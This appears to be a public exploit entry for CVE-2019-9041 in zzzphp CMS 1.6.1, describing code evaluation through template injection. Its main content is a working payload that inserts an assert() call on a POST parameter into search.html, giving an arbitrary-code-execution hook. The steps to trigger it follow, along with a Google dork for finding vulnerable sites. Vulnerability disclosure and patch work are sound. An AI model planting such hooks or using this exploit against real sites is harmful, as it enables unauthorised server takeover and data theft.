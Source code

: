 EXP
---

    # Exploit Title: dynamic code evaluation of zzzphp cms 1.6.1

    # Google Dork: intext:"2015-2019 zzcms.com"

    # Date: 24/02/2019

    # Exploit Author: Yang Chenglong

    # Vendor Homepage: http://www.zzzcms.com/index.html

    # Software Link: http://115.29.55.18/zzzphp.zip

    # Version: 1.6.1

    # Tested on: windows/Linux,iis/apache

    # CVE : CVE-2019-9041

    Due to the failure of filtering function parserIfLabel() in inc/zzz_template.php, attackers can insert dynamic php code into the template file and leads to dynamic code evaluation.

    Exploit:
    login in to the admin panel, edit the template of search.html, insert the following code:

    {if:assert($_POST[x])}phpinfo();{end if}

    Visit the http://webroot/search/ and post data “x = phpinfo();”, the page will execute the php code “phpinfo()” as follow:
    [1.png]

    Remarks:
    While the above exploit requires attackers to have the access to the admin panel, I will post another exploit by using csrf to acquire the control of website without access to the admin panel.
